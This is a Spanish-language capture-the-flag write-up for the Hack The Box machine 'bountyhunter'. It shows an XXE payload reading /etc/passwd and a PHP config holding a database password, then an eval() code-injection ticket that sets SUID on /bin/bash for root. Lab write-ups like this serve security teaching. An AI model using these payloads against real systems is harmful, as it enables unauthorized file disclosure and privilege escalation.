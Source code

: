 ```yaml
---
layout: single
title: bountyhunter - Hack The Box
excerpt: "La máquina bountyhunter es una máquina de dificultad fácil de hackthebox, la máquina contempla una vulnerabilidad xxe(XML external entities), en lo cual extraemos una contraseña que nos sirve para ingresar a la máquina. Luego mediante un script en python logramos elevar nuestro privilegio a root."
date: 2022-09-23
classes: wide
header:
  teaser: /assets/images/htb-writeup-bountyhunter/bountyhunter_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - xxe
  - abusing sudoers
---
```


![](/assets/images/htb-writeup-bountyhunter/bountyhunter_logo.png)

## Enumeración
Arrancamos con un reconocimiento con nmap.

```ruby

# Nmap 7.92 scan initiated Thu Sep 22 10:51:21 2022 as: nmap -sCV -p22,80 -oN targeted 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 22 10:51:39 2022 -- 1 IP address (1 host up) scanned in 18.00 seconds
```

Una vez entramos a la web nos dirigimos a http://10.10.11.100/log_submit.php.Y vemos un campo que nos pide 4 input y los refleja en la web.

![](/assets/images/htb-writeup-bountyhunter/xml.png)

Interceptamos la petición post para ver como se envía la data. y obtenemos una cadena en base64 y la decodificamos. 

```bash
echo "PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ+dGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==" | base64 -d; echo
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>test</title>
                <cwe>test</cwe>
                <cvss>test</cvss>
                <reward>test</reward>
                </bugreport>
```

## XXE

Ya que la información viaja en formato xml, probamos un XML External Entity, para ver si tenemos lectura de archivos locales de la máquina.Dicho payload hay que decodificarlo en base64 y luego en urlencode.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<bugreport>
<title>&example;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

![](/assets/images/htb-writeup-bountyhunter/etc-passwd.png)

Podemos leer archivos arbitrarios de la maquina victima.Ahora lo que procede es además de usar el wrapper file, usamos el php://filter/convert.base64-encode/resource= , para poder leer archivos php. Una vez creado el payload le indicamos la ruta /var/www/html/db.php, y extraemos un archivo de configuración que nos sirve para ingresar a la máquina.

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

![](/assets/images/htb-writeup-bountyhunter/sshpass.png)


## Elevación de privilegios

```bash
development@bountyhunter:/opt/skytrain_inc$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Por lo que vemos podemos ejecutar un script en python como root, asi que empezamos a comprenderlo para ver de que forma podemos ejecutar comandos.

```python

#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

Lo que el script hace es crear un ticket. Para que dicho ticket se cree tiene que haber una especie de "reglas", la primera verifica que el archivo que indiquemos termine en extensión .md, la segunda verificación es que la primera línea contemple # Skytrain Inc, la tercera verificacion debe tener la segunda línea ## Ticket to testing,La cuarta verificación debe tener la  tercer línea  __Ticket Code:__  y la quinta linea debe tener una suma que su resultado sea modulo de 4. Luego las últimas dos líneas debe tener  ##Issued: 2021/04/06 ,y  #End Ticket.Primero probamos el siguiente payload,pero no llegamos a nada.

```python
# Skytrain Inc
## Ticket to 'test',__import__("os").system("whoami"),'testing'
__Ticket Code:__
**11+321+1**
##Issued: 2021/04/06
#End Ticket
```
Entonces paso al siguiente sospecha de ejecutar comandos.

```python
# Skytrain Inc
## Ticket to testing
__Ticket Code:__
**11+321+1 and __import__("os").system("chmod +s /bin/bash")**
##Issued: 2021/04/06
#End Ticket

```

Y logramos ejecutar comandos.

```bash
development@bountyhunter:/opt/skytrain_inc$ sudo -u root /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py 
Please enter the path to the ticket file.
/tmp/payload.md
Destination: testing
Invalid ticket.
development@bountyhunter:/opt/skytrain_inc$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
development@bountyhunter:/opt/skytrain_inc$ /bin/bash -p
bash-5.0# cat /root/root.txt
bb3be873edadacc2c3e7f336b17c64c3
bash-5.0# 
```
